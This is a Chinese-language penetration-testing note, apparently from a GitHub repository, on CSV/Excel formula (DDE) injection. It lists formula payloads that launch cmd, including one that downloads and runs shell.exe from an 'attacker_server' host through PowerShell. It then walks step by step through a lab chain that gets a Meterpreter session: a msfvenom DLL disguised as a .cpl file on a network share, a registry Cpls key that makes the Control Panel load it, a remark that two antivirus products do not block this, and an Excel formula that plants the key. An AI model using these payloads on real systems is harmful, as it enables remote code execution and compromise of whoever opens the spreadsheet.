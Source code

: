 ## CSV注入 ##

### 说明 ###
CSV又称xls注入或excel注入，通过在excel表里面进行操作调用其他进程


### 例子 ###
```
@SUM(1+1)*cmd|' /C calc'!A0
=cmd|' /C notepad'!'A1'
=cmd|'/C powershell IEX(wget attacker_server/shell.exe)'!A0
```
cmd为你要执行的查询可以换成别的，比如说将第一个变成
```
@SUM(1+1)*notepad|' demo.txt'!A0
```
![](https://s2.ax1x.com/2019/06/06/VdEzDO.png)

当打开xls之后点击信任源就会执行
![](https://s2.ax1x.com/2019/06/06/VdVP5d.png)

### xls反弹meterpreter ###
环境：
```
windows server 2008 --- 192.168.241.129 开启了网络共享
kali --- 192.168.241.136
windows 7 --- 192.168.241.134 安有360服务
```

先做一个简单的测试：
kali生成一个简单的弹calc的dll,并将dll后缀名改为cpl
```
msfvenom -p windows/exec CMD=calc.exe -f dll > hook.dll
mv hook.dll hook.cpl
```
![](https://s2.ax1x.com/2019/06/06/VddgIJ.md.png)

将这个hook.cpl移到windows server 2008的网络共享里
![](https://s2.ax1x.com/2019/06/06/VddIsK.png)

在windows7执行 （发现360并不拦截这个路径，火绒也试过）
```
reg add "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Control Panel\Cpls" /t REG_SZ /d "\\192.168.241.129\Public\hook.cpl"
```
![](https://s2.ax1x.com/2019/06/06/Vdw5fs.md.png)

此时打开控制面板会弹出calc
![](https://s2.ax1x.com/2019/06/06/VdwTlq.md.png)

使用Procmon跟踪进程发现控制面板会寻找这个注册表路径并加载里面的cpl
![](https://s2.ax1x.com/2019/06/06/VdwqmT.png)

![](https://s2.ax1x.com/2019/06/06/Vd0Zhd.md.png)

![](https://s2.ax1x.com/2019/06/06/Vd0n1I.png)

远程加载之后我回去windows server 2008发现个事情
dll变成了这样，而且一删除就会重新出现= =。。后面问了Yansu才知道怎么回事
(PS：如果要删除，先删除目标加里的注册表路径，然后在共享的那台机里重启，重新进入系统后在访问共享删除)
![](https://s2.ax1x.com/2019/06/06/VdB5Mq.png)

实验结束，回到上一层话题，使用xls执行cmd命令添加这个注册表路径并执行控制面板获取meterpreter
流程大概是这样的：
![](https://s2.ax1x.com/2019/06/06/Vd0y4J.png)

生成dll改名为cpl
![](https://s2.ax1x.com/2019/06/06/Vd0jDf.md.png)


重新放入hook.cpl
![](https://s2.ax1x.com/2019/06/06/VdDDfJ.md.png)

msf开启监听
![](https://s2.ax1x.com/2019/06/06/VdD4te.png)

在xls插入以下语句
```
=cmd|' /C reg add "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Control Panel\Cpls" /t REG_SZ /d "\\192.168.241.129\Public\hook.cpl"'!_xlbgnm.A1
```
![](https://s2.ax1x.com/2019/06/06/Vdr4bV.md.png)

打开控制面板触发
![](https://s2.ax1x.com/2019/06/06/VdytOI.png)

gif动图
![Vd6ucj.gif](https://s2.ax1x.com/2019/06/06/Vd6ucj.gif)

参考文章：
http://reverse-tcp.xyz/pentest/red%20team/2017/12/28/windows-to-download-and-execute-arbitrary-code.html 
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CSV%20Injection

